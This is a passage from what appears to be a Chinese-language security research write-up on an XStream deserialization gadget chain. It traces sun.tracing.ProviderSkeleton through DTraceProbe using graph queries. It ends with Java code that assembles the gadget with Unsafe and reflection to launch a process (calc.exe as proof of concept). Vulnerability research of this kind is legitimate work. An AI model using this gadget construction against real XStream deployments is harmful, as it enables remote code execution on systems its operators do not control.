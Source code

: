 因此继续分析4层调用。

可以看到此时出现了一个sun.tracing.ProviderSkeleton，并且浅看代码，在invoke中是没有过滤的。

 ![](/attachments/2025-01-22-xstream-gadget/55cbe1c5-e153-4e9c-b7b2-46c1b1acf429.png)

因此查看下这个类开始的链：

```jsx
MATCH path=(sink:Method {IS_SINK: true, NAME: "invoke"})<-[:CALL|ALIAS*4]-(source:Method)<-[:HAS]-(child:Class)-[:EXTENDS|INTERFACE*]->(father:Class)
WHERE father.NAME = "java.lang.reflect.InvocationHandler" and source.NAME="invoke" and not source.CLASSNAME contains "com.sun.org.glassfish"  and source.CLASSNAME="sun.tracing.ProviderSkeleton"
RETURN path;
```

 ![](/attachments/2025-01-22-xstream-gadget/975d3b84-c36e-4767-982c-8c4c2ad061b5.png)

invoke函数代码如下：

```jsx
 public Object invoke(Object var1, Method var2, Object[] var3) {
    Class var4 = var2.getDeclaringClass();
    if (var4 != this.providerType) {
        try {
            if (var4 != Provider.class && var4 != Object.class) {
                throw new SecurityException();
            }

            return var2.invoke(this, var3);
        } catch (IllegalAccessException var6) {
            assert false;
        } catch (InvocationTargetException var7) {
            assert false;
        }
    } else {
        this.triggerProbe(var2, var3);
    }

    return null;
}
```

可以看到上图中的两条链路对应的是var2.invoke和下方的triggerProbe，var2是动态代理的方法，因此是不可控的，仅剩的一条利用链调用如下：

```jsx
sun.tracing.ProviderSkeleton#invoke
		sun.tracing.ProbeSkeleton#uncheckedTrigger
					sun.tracing.dtrace.DTraceProbe#uncheckedTrigger
						this.implementing_method.invoke(this.proxy, var1);
```

这里的implementing_method和proxy都是DTraceProbe的属性，符合反序列化的要求，因此只需要按照需要构造出一个ProviderSkeleton对象就可以。构造的代码如下， 使用Unsafe构造对象可以避免生成很多用不到的属性，从而污染输出的xml。

```jsx
HashMap hashMap = new HashMap<Method, ProbeSkeleton>();
Method hashcode = Object.class.getDeclaredMethod("hashCode");
ProcessBuilder processBuilder = new ProcessBuilder("calc.exe");
Method start =processBuilder.getClass().getDeclaredMethod("start");

Object nullprovider = getUnsafe().allocateInstance(Class.forName("sun.tracing.NullProvider"));
Object probe = getUnsafe().allocateInstance(Class.forName("sun.tracing.dtrace.DTraceProbe"));
Reflections.setFieldValue(probe,"proxy",processBuilder);
Reflections.setFieldValue(probe,"implementing_method",start);

hashMap.put(hashcode,probe);
Reflections.setFieldValue(nullprovider,"providerType",Object.class);
Reflections.setFieldValue(nullprovider,"active",true);
```